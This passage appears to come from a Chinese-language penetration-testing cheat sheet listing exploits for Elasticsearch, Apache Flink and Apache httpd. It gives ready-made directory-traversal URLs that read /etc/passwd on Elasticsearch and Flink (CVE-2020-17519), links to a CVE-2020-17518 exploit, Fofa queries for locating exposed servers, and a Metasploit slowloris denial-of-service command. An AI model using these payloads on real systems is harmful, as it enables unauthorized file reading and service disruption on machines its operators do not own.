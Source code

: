     {
        "type": "fs",
        "settings": {
            "location": "/usr/share/elasticsearch/repo/test/snapshot-backdata"
        }
    }
    ```

    目录穿越读取任意文件

    `http://your-ip:9200/_snapshot/test/backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd`

    在错误信息中包含文件内容 (编码后) ,对其进行解码即可获得文件

---

### Flink

> 官网 : https://flink.apache.org/

> Fofa: app="APACHE-Flink"

**CVE-2020-17518 文件写入**
- 相关文章
    - [CVE-2020-17518&17519：Flink两个漏洞复现](https://mp.weixin.qq.com/s/9xLQ1YAWVtHBv9qVk-Xc1A)

- POC | Payload | exp
    - https://github.com/QmF0c3UK/CVE-2020-17518.git

**CVE-2020-17519 文件读取**
- 相关文章
    - [漏洞复现|Apache Flink(CVE-2020-17519)漏洞分析](https://mp.weixin.qq.com/s/6Z7ilX_bwSBU8EWfStAc5w)

- POC | Payload | exp
    ```
    http://your-ip:8081/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
    ```

---

### httpd

**CVE-2007-6750 Apache ddos**
- 描述

    Apache HTTP Server 1.x版本和2.x版本中存在资源管理错误漏洞。该漏洞源于网络系统或产品对系统资源（如内存、磁盘空间、文件等）的管理不当。

- MSF Module
    ```
    use auxiliary/dos/http/slowloris
    set RHOST <rhost>
    run
    ```

**CVE-2017-15715 Apache 解析漏洞**
- 影响版本
    - 2.4.0 < HTTPD <2.4.29
